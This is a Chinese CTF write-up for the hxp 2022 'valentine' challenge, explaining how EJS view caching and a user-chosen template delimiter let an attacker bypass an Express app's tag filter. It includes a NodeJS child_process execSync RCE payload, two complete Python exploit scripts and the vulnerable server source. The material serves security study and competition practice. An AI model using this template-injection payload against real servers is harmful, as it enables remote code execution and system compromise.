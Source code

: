 #RCE 

原文：[hxp | hxp CTF 2022: valentine](https://hxp.io/blog/101/hxp-CTF-2022-valentine/)

默认的 NodeJS RCE，它读取/flag：

```html
<.- global.process.mainModule.constructor._load(`child_process`).execSync(`/readflag`).toString() .>
```

在 Dockerfile 中，节点环境设置为生产环境。

```Dockerfile
ENV NODE_ENV=production
```

这会导致快速缓存视图。

```javascript
if (env === 'production') {
  this.enable('view cache');
}
```

由于 POST 请求直接重定向到没有分隔符的模板，因此将缓存默认分隔符`%`，以后无法覆盖。

但可以禁止重定向：

- Python：`requests.port(..., allow_redirects=False)`
- Firefox: set `network.http.redirection-limit` to `1` in `about:config`

如果随后使用`delimiter=.`访问站点，则将在模板中使用新的`delimiter`。


## pwn.py

```python
import requests
import re

HOST = "TODO"
PORT = TODO

# write template
r = requests.post(
    f"http://{HOST}:{PORT}/template",
    data={
        "tmpl": """<.- global.process.mainModule.constructor._load(`child_process`).execSync(`/readflag`).toString() .>"""
    },
    allow_redirects=False,
)

# change delimiter
m = re.search(r"Redirecting to /(?P<uuid>.*)?name=", r.text)
r = requests.get(f"http://{HOST}:{PORT}/{m.group('uuid')}?name=a&delimiter=.")
m = re.search(r"hxp\{[^}]+\}", r.text)
print(m.group(0))

```
另一种
```python
import requests

url = ""
tmpl = (
    "flag: <$= process.mainModule.require('child_process').execSync('../readflag') $>"
)
r = requests.post(
    url + "/template", data={"tmpl": tmpl, "name": "gork"}, allow_redirects=False
)
redirect = r.headers["location"]

r = requests.get(url + redirect + "&delimiter=$")
print(r.text)

```


个人理解

app.py
```python
var express = require('express');
var bodyParser = require('body-parser')
const crypto = require("crypto");
var path = require('path');
const fs = require('fs');

var app = express();
viewsFolder = path.join(__dirname, 'views');

if (!fs.existsSync(viewsFolder)) {
  fs.mkdirSync(viewsFolder);
}

app.set('views', viewsFolder);
app.set('view engine', 'ejs');

app.use(bodyParser.urlencoded({ extended: false }))

app.post('/template', function (req, res) {
  let tmpl = req.body.tmpl;
  let i = -1;
  while ((i = tmpl.indexOf("<%", i + 1)) >= 0) {
    if (tmpl.substring(i, i + 11) !== "<%= name %>") {
      res.status(400).send({ message: "Only '<%= name %>' is allowed." });
      return;
    }
  }
  let uuid;
  do {
    uuid = crypto.randomUUID();
  } while (fs.existsSync(`views/${uuid}.ejs`))

  try {
    fs.writeFileSync(`views/${uuid}.ejs`, tmpl);
  } catch (err) {
    res.status(500).send("Failed to write Valentine's card");
    return;
  }
  let name = req.body.name ?? '';
  return res.redirect(`/${uuid}?name=${name}`);
});

app.get('/:template', function (req, res) {
  let query = req.query;
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});

app.get('/', function (req, res) {
  return res.sendFile('./index.html', { root: __dirname });
});

app.listen(process.env.PORT || 3000);
```

首先， /template 传递的tml会根据 `<%` 匹配 <%= name %>，上面的两个脚本是不同的方式

一个是在开始就修改delimiter,另一个是重定向时修改delimiter。

至于这个命令

```javascript
global.process.mainModule.constructor._load(`child_process`).execSync(`/readflag`).toString()
```

是用到了原型链以及nodejs child_process 模块相关的内容